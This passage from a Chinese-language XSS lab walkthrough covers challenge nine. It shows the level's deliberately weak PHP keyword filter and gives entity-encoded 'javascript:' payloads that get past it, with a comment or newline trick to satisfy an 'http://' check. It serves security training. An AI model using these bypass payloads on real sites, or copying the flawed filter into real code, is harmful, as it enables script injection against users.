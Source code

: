 `Result`

![image-20200828154518631](/images/XSS/image-20200828154518631.png)

##### 挑战九

```shell
//实体编码测试
`javascrip&#x74;:alert(1)`
```

![image-20200828154756855](/images/XSS/image-20200828154756855.png)

```php+HTML
//在之前基础上，添加的链接是http://头信息
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

```shell
//添加http://信息
`javascrip&#x74;:alert(1)//http://xxx.com ` //利用注释
`javascrip&#x74;:%0dhttp://xxx.com%0dalert(1) ` //不利用注释
`javascrip&#x74;:%0ahttp://xxx.com%0daalert(1)`  //不利用注释
```

`Result`

![image-20200828155322234](/images/XSS/image-20200828155322234.png)
